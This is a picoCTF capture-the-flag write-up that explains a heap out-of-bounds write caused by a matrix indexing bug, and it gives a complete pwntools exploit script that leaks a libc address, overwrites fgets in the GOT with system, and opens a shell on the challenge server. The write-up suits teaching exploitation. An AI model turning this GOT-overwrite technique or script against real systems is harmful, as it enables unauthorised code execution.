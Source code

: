 # Enter The Matrix
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *150 points*
* Description: The Matrix awaits you. Take the red pill and begin your journey. Source. Jack in at shell2017.picoctf.com:9417.

# Overview

This program allows you to create matricies of various sizes which are stored on the heap. You can then set/get the value at specific indecies.

# Solution

Here is the struct for each matrix:

```c
struct matrix {
    int nrows, ncols;
    float *data;
};
```

When each matrix is initialized, memory is allocated like this:

```c
struct matrix *m = malloc(sizeof(struct matrix));
m->nrows = nrows;
m->ncols = ncols;
m->data = calloc(nrows * ncols, sizeof(float));
```

Here we see that the `data` field is allocated to exactly the right size to hold data. The issue is when the program tries to traverse this space. Here is how indexing was done:

```c
m->data[r * m->nrows + c] = v;
```
The fix would be to do it like this:
```c
m->data[r * m->ncols + c] = v;
```

It looks like the programmer was attempting to store rows in memory like this:

Given:
$$
M = \begin{bmatrix}
    a & b \\
	c & d \\
	e & f
\end{bmatrix}
$$

Store it as:

```
[a] <-- *data
[b]
[c]
[d]
[e]
[f] <-- end of data allocation
```

Where each element takes up 4 bytes (as a float).

However, due to the indexing bug, this matrix would be stored as such:

```
[a] <-- *data
[b]
<x>
[c]
[d]
<x> <-- end of data allocation
[e]
[f]
```

So this bug means we can write outside of our assigned heap space. My approach was to overflow into another matrix struct and use it to overwrite a GOT address with `system`.

When we create two matrices on the heap, they are allocated like this:

![mat1]()

And due to the indexing bug, we end up writing to the following memory locations:

![mat2]()

Notice how if we write to `3,0` we overwrite the `data` pointer of matrix 2. We can set this to point to the GOT table and perform our attack.

The only catch is that the program reads and writes *float values*. So we just have to do a little bit of encoding between hex addresses and floats.

# Script

```python
# By Harrison Green <hgarrereyn>

from pwn import *
import struct

# Connect
sock = remote('shell2017.picoctf.com', 9417)

# address offset in libc from fgets -> system
offset = -151264

# get next command
def n():
	return sock.recvuntil('Enter command:')

n()

sock.send('create 4 2\n')
n()

sock.send('create 1 1\n')
n()

# Sets mat 2 to point to the address of fgets@GOT
sock.send('set 0 3 0 3.991163316186605e-34\n')
n()

# Read fgets address
sock.send('get 1 0 0\n')

# Float -> hex conversion
f = float(n().replace('\n',' ').split(' ')[3])
print('Float val:\t' + repr(f))

fa = struct.unpack('<I', struct.pack('<f', f))[0]
print('Addr:\t' + hex(fa))

# Calculate system address
sa = fa + offset
print('Sys Addr:\t' + hex(sa))

# Hex -> float conversion
s = struct.unpack('>f',bytes(bytearray.fromhex(hex(sa)[2:])))[0]
print('Sys float:\t' + repr(s))

# Overwrite fgets@GOT with system
sock.send('set 1 0 0 ' + repr(s) + ' ; sh\n')
n()

# Call system('sh')
sock.send('sh\n')

# We've got shell
sock.interactive()
```
